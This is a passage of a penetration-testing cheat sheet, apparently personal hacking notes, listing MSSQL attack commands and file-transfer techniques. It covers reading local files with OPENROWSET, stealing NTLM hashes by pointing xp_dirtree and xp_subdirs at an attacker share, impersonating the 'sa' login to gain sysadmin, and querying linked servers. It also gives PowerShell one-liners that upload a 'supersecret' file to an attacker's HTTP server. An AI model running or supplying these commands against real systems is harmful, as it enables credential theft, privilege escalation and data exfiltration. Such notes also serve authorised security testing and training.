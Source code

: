 ```bash
8> GO

# Read Local Files in MSSQL
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO

# XP_DIRTREE Hash Stealing
EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO

# XP_SUBDIRS Hash Stealing
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO

# Identify Users that We Can Impersonate
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

# Verifying our Current User and Role
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

# Impersonating the SA User
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

# Identify linked Servers in MSSQL
1> SELECT srvname, isremote FROM sysservers
2> GO
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```

### file transfer
- Through Web(Transfer Files From Windows to Kali)
https://juggernaut-sec.com/windows-file-transfers-for-hackers/#Uploading_Files_to_Attackers_HTTP_Server
```bash
# From Windows to kali
1. first turn on the python server(placed it under /root/tools/sample
SimpleHTTPServerWithUpload.py
2. powershell
(New-Object System.Net.WebClient).UploadFile('http://172.16.1.30/', 'C:\temp\supersecret.txt')
or cmd
powershell.exe -c "(New-Object System.Net.WebClient).UploadFile('http://172.16.1.30/upload.php', 'C:\temp\supersecret.txt')"
```
- Through vsftpd(Transfer Files From Windows to Kali)
```bash
1. Download vsftpd (apt install vsftpd)
apt install vsftpd

2. Uncomment "write_enable=True" from /etc/vsftpd.conf

3. Run vsftpd
```